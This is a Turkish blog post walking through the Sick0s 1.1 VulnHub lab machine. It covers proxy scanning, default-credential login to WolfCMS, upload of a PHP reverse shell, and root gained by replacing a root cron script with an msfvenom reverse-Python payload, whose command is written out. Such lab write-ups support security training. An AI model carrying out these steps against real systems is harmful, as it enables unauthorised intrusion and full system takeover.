 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.
Öncelikle makinaya ait ip adresini buldum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan öğrendim .
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.

> Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi       sağlayan bir proxy serverdır.

Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimizi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
#### dirb http://192.168.1.53 -p 192.168.1.53:3128
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.

Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)

Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.
Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceledim.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılaştım.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimde güzel bir sürpriz ile karşılaştım.Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum. 
#### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim. 
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
Scripti çalıştıran root kullanıcısı olduğu için dolayısıyla bende root yetkileri ile shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosroot.png">
</figure>
<figure >
    <img src="/assets/img/sickos/sickos.gif">
</figure>
